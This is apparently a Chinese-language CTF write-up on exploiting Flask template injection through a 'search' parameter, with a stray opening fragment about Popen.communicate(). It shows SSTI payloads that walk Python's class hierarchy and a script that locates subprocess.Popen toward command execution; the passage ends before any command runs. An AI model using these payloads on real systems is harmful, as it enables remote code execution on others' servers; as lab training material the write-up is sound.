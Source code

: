 使用 `Popen.communicate()`。这个方法会把输出放在内存，而不是管道里，

所以这时候上限就和内存大小有关了，一般不会有问题。而且如果要获得程序返回值，

可以在调用 `Popen.communicate()` 之后取 `Popen.returncode` 的值。

>   参考地址：https://blog.csdn.net/carolzhang8406/article/details/22286913

## 1、解法一

>   首先查看页面然后查看网页源代码发现提示，需要get方式提交一个参数search，然后题目给的提示是flask
>
>   那么可以想到是flask模板注入的问题

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107094705.png)

>   测试一下发现确实是存在漏洞

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/202301070950624.png)

>   然后列出对象的属性，在找到object的位置
>
>   ```
>   http://454fe7fb-8c9b-4941-ad6b-dc265fb5fc9a.node4.buuoj.cn:81/?search={{''.__class__}}
>   ```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107095312.png)

```
http://454fe7fb-8c9b-4941-ad6b-dc265fb5fc9a.node4.buuoj.cn:81/?search={{''.__class__.__mro__}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/20230107095353.png)

>   找到object的位置然后列出所有属性

```
http://454fe7fb-8c9b-4941-ad6b-dc265fb5fc9a.node4.buuoj.cn:81/?search={{''.__class__.__mro__[2].__subclasses__()}}
```

![](https://peekab.oss-cn-hangzhou.aliyuncs.com/intranet/image-20230107095504396.png)

>   然后找到`<class 'subprocess.Popen'>`的下标位置，这里提供一个脚本

```py
import requests
import re
import html
import time

index = 0
for i in range(1, 1000):
    try:
        # 因为输出的属性很多所有这里一个一个输出下标内容的值，然后与之对比
        url = "http://454fe7fb-8c9b-4941-ad6b-dc265fb5fc9a.node4.buuoj.cn:81//?search={{''.__class__.__mro__[2].__subclasses__()[" + str(i) + "]}}"
        r = requests.get(url)
        # 提取返回的内容
        res = re.findall("<h2>You searched for:<\/h2>\W+<h3>(.*)<\/h3>", r.text)
        time.sleep(0.2)
        # 转义字符
        res = html.unescape(res[0])
        print(str(i) + " | " + res)
        # 记录下标
        if "subprocess.Popen" in res:
            index = i
            break
```